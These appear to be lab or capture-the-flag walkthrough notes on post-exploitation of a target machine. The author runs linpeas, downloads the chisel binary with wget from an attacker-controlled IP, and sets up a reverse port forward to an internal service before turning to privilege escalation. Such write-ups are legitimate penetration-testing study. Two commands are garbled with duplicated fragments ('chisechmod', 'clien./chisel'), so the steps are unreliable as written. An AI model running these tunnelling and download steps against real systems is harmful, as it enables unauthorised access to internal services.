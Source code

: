 ![](../attachment/59fea83b87c61440d9638a341d8cbeee.png)
We have a terminal.

Running linpeas:
![](../attachment/eab95123d74152535dad0a600d4bb644.png)
We can forward this port with chisel

Set up a python server:
```
python3 -m uploadserver 80
```
```
wget http://192.168.45.182:/chisel
```
```
chmod +x chisechmod +x chisel
```
```
./chisel clien./chisel client 192.168.45.182:8001 R:65423:127.0.0.1:65423
```
Nah leads nowhere:
![](../attachment/8f1253268e5fc4d88cbbeb0ca2ad0a25.png)

For privesc:
![](../attachment/d943b9572c688b48c2c39c7eb05f5197.png)
We can investigate it:
![](../attachment/1c16fc5a1b0641c9185f9886077653ae.png)
It's running this in port 65423